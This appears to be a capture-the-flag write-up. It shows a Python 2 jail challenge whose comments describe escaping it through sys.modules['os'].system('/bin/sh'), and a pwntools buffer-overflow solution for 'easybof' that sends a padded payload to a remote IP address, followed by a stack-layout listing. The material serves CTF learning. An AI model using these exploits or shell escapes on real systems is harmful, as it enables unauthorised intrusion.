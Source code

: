 ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import sys
import traceback

print("[SECURE PYTHON v0.0.1]")
#This will remove all built-in functions such as __import__, so we cannot do __import__('os').system('/bin/sh')
#However, there is module sys for us to use
#Searching the python documentation of sys module, we can find an interesting one, sys.modules, which is a dictionary that maps all module name to actual module object
#This includes 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>
#Thus, sys.modules['os'] can give module os, so sys.modules['os'].system("/bin/sh") can give the shell
targets = __builtins__.__dict__.keys()
for x in targets:
    del __builtins__.__dict__[x]

def raw_input():
    data = ''
    while 1:
        i = sys.stdin.read(1)
        if i == '\n':
            return data
        else:
            data += i

while 1:
    try:
        sys.stdout.write(">>> ")
        data = raw_input()
        exec data
    except:
        sys.stdout.write("Whoops\n")
```

## easybof

```python
from pwn import *
sh = remote("159.203.149.53", 30008)
sh.send("A" * 0x2c + p32(0xb00bface))
sh.interactive()
```

Just note that number of "A" is 0x2c instead of 0x20

```assembly
-0000000000000030 var_30          db 32 dup(?)
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004 var_4
```
